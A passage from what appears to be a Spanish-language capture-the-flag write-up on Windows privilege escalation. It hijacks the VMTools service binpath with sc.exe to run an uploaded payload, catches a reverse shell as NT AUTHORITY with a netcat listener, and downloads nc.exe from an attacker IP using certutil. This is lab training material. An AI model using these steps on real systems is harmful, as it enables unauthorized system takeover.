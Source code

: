 ```powershell
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc    
*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```

En este caso, se va a elegir el servicio VMTools y se va a cargar el ejecutable que se subió con ayuda de **sc.exe**:

```powershell
sc.exe config VMTools binpath="C:\Users\svc-printer\Documents\binariobonito.exe"

[SC] ChangeServiceConfig SUCCESS
```
{: .nolineno}


Ahora es necesario detener el servicio.

```powershell
sc.exe stop VMTools
SERVICE_NAME: VMTools
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```
{: .nolineno}


Ponerse a la escucha en el puerto que fue escogido para el binario.
```bash
nc -lvp 8888
```
{: .nolineno}


Ponerse a la escucha en el puerto que fue escogido para el binario.
```powershell
sc.exe start VMTools
```
{: .nolineno}


Y con eso se gana una shell reversa como **NT AUTHORITY**




### Metodo 2 

Para este método, el procedimiento es el mismo, pero se puede subir un binario de  [nc](https://github.com/int0x33/nc.exe/blob/master/nc.exe) compatible con el sistema y ponerlo a correr en el servicio.

```powershell
certutil.exe -urlcache -f http://10.10.14.17:8081/nc.exe nc.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```
{: .nolineno}

